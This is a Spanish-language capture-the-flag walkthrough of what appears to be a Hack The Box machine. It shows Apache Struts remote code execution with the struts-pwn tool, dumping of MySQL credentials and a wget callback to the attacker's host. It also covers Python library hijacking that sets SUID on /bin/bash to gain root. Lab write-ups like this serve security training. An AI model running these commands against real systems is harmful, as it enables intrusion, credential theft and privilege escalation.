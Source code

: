 ## Summary

- IP -> 10.10.10.64
- Ports -> TCP (20, 80, 8080), UDP (idk)
- OS ->  Linux
- Services & Applications
    - 20 -> 
    - 80 -> 
    - 8080 -> 


## Launchpad

-   **Launchpad**: [https://launchpad.net/ubuntu](https://launchpad.net/ubuntu)

## Recon
- Comando -> **whatweb http://< URL>**  Nos dara una breve descripcion del gestor de contenidos del puerto 80
- Comando -> **whatweb http://< URL>:< PUERTO>** – Nos dara una breve descripcion del gestor de contenidos por puerto especifico

Miramos la pagina web
- Observamos su codigo fuente 

- Comando -> **wfuzz -c --hc=404 -t 200 -w < RUTA DICCIONARIO> < http:// url/FUZZ/>** Hacemos fuzing a una pagina web especifica para poder encontrar subdominios con un diccionario especifico, y el diccionario se aplicara en la palabra FUZZ (c=colorizado, w=wordlist, hc=hidecode, hh=hide characters ch en caso que sea necesario, t=tareas simultaneas). Es importante poner el nombre de la url, ya que muchas veces con la pura IP no encuentra nada. 
	- **/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt** 

Encontramos un dir llamado 'Monitoring'
El cual al momento de colocarlo en la url de la pagina web, podemos observar en la url que hay un 'Wlcome.action'
Ahora hacemos una busqueda en Google de **.action exploit**

Y encontramos en Github una url que se llama 'mazen160/struts...Apache strust'
Volvemos a buscar en Google que es ''apache struts' y nos sale  que es una herramienta de soporte para el desarrollo de aplicaciones web del patron MVC bajo la plataforma Java EE. 

Nos dirigimos a la pagina anterior de Github que habiamos encontrado
Nos clonamos el repo
- Comando -> **git clone https://github.com/mazen160/struts-pwn**
- Comando ->**python3 strust -h** Miramos el panel e ayuda del ejecutable en python3
- Comando -> **python3 struts-pwn.py -u 'http://10.10.10.64/Monitoring/example/Welcome.action' -c 'id'** Debemos de tener la extencion .action con ese comando nosotros podemos colocar un comando que si se ejecuta correcramente nos mostrara el id de la maquina victima.

Y con eso tenemos ejecucion remota de comandos.
- Comando -> **python3 struts-pwn.py -u 'http://10.10.10.64/Monitoring/example/Welcome.action' -c 'whoami'** Ejecutamos el comando whoami


- Comando -> **python3 -m http.server 80** Nos ponemos en escucha por el puerto 80
- Comando -> **python3 struts-pwn.py -u 'http://10.10.10.64/Monitoring/example/Welcome.action' -c 'which curl'** Para ver si tiene Curl
- Comando -> **python3 struts-pwn.py -u 'http://10.10.10.64/Monitoring/example/Welcome.action' -c 'which wget'** Para ver si tiene Curl
Miramos que si existe el comando Wget en la maquina victima
- Comando -> **python3 struts-pwn.py -u 'http://10.10.10.64/Monitoring/example/Welcome.action' -c 'wget http://10.10.14.12/test'** Para ver si recibimos algo, pero vemos que no.

- Comando -> **python3 struts-pwn.py -u 'http://10.10.10.64/Monitoring/example/Welcome.action' -c 'ls -l'** Para ver que hay en el directorio de la maquina victima, y encontramos db_connect

- Comando -> **python3 struts-pwn.py -u 'http://10.10.10.64/Monitoring/example/Welcome.action' -c 'cat db_connect'** Para ver que hay
dentro del file 'db_connect'

- Comando -> **python3 struts-pwn.py -u 'http://10.10.10.64/Monitoring/example/Welcome.action' -c 'which mysql'** Para ver si existe la base de datos 

- Comando -> **python3 struts-pwn.py -u 'http://10.10.10.64/Monitoring/example/Welcome.action' -c 'which mysqlshow'** Para ver si esta mysqlshow y asi poder hacer mejor la intercaccion 
- Comando -> **python3 struts-pwn.py -u 'http://10.10.10.64/Monitoring/example/Welcome.action' -c 'mysqlshow -uadmin -padmin'** Para ingresar a la base de datos
	u -> usuario 
	p -> password
El usuario y Passwd se pone seguidos despues de la u y p.


- Comando -> **python3 struts-pwn.py -u 'http://10.10.10.64/Monitoring/example/Welcome.action' -c 'mysqlshow -uadmin -padmin users'** Para ver que tablas tenemos, despues de saber el nombre de las bases de datos 

Para la tabla que encontramos que columnas existen.
- Comando -> **python3 struts-pwn.py -u 'http://10.10.10.64/Monitoring/example/Welcome.action' -c 'mysqlshow -uadmin -padmin users accounts'** 

Ya cuando lleguemos a la parte de los usuarios y passwd, podemos colocar el siguiente comando.
- Comando -> **python3 struts-pwn.py -u 'http://10.10.10.64/Monitoring/example/Welcome.action' -c 'mysql -uadmin -padmin -e "select * from accounts" users'** 
Colocando la base de datos al final y cambiamos el myslshow por mysql

Ahora tenemos un usuario y passwd

## User
- Comando -> **ssh < user>@< IP>** Para conectarnos por ssh 
Ahora podemos buscar la primer flag user.txt

- **uname -a** -> Miramos el Kernel y algunos detalles, amdx64 o x86, version. Buscar el Google si existe algun exploit.
- **lsb_release -a** -> Para ver que distribucion de Linux es
- **sudo -l** -> Para ver si tenemos privilegios en el Sudoers (l=ele), que podamos ejecutar comandos como (root) NOPASSWD
	- **sudo Command** -> Para poder ejecutar comando como root
Encontramos un archivo de Python que podemos ejecutar test.py pero no lo podemos modificar. Solo ejecutar 
- **cat test.py** -> Miramos el contenido del archivo python

	La tecnica que vamos a usar es un **Library Hijacking en Python3**

Podemos observar que se esta importando la libreria **Hashlib**, y con eso llamar haslib.md5
Y esta tecnica consiste en que cuando el script llame a la libreria, esta primero va a buscar en la ruta actual de trabajo y luego seguira con la ruta que corresponda. Estos es similar a la tecnica de **Path Hijacking de Bash** 

Por lo que debemos de crear un archivo en la ruta actual de trabajo: 
- **nvim hashlib.py** 
	import os
	os.system("chmod u+s /bin/bash")

Para que en ese file podamos agregarle el privilegio SUI a la bash y asi poder temporalmente ser Root.

- **sudo -u root /usr/bin/python /home/richard/test.py** -> Para poder ejecutar el archivo en python
Y en ese punto hemos secuestrado la libreria 


## Root
Miramos la bash para ver is ha funcionado 
- **ls -l /bin/bash** -> Para ver los privilegios de la bash 
- **bash -p** -> Para ejecutar la bash y lanzarnos la consola como root cuando tiene permisos SUID o la s  (p=privilege)

